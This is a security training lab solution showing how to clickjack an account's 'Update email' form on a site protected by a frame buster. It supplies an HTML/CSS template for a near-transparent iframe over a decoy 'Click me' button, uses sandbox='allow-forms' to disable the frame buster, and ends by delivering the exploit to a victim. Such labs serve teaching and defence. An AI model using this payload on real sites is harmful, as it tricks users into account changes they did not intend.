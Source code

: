 
## Lab: Clickjacking with a frame buster script

### Solution

1.  Log in to the account on the target website.
2.  Go to the exploit server and paste the following HTML template into the "Body" section:
    
    ```html
    <style> 
        iframe{ 
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
        div{ 
            position:absolute;
            top:$top_value;
            left:$side_value;
            z-index: 1;
        }
    </style> 
    <div>Test me</div> 
    <iframe sandbox="allow-forms" src="YOUR-LAB-ID.web-security-academy.net/[[email protected]](/cdn-cgi/l/email-protection)">
    </iframe>
    ```
3.  Make the following adjustments to the template:
    
    *   Replace `YOUR-LAB-ID` in the iframe `src` attribute with your unique lab ID so that the URL of the target website's user account page, which contains the "Update email" form.
    *   Substitute suitable pixel values for the $height\_value and $width\_value variables of the iframe (we suggest 700px and 500px respectively).
    *   Substitute suitable pixel values for the $top\_value and $side\_value variables of the decoy web content so that the "Update email" button and the "Test me" decoy action align (we suggest 385px and 80px respectively).
    *   Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
    
    Notice the use of the `sandbox="allow-forms"` attribute that neutralizes the frame buster script.
4.  Click **Store** and then **View exploit**.
5.  Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties of the style sheet.
6.  Once you have the div element lined up correctly, change "Test me" to "Click me" and click **Store**.
7.  Change the email address in your exploit so that it doesn't match your own.
8.  Deliver the exploit to the victim to solve the lab.
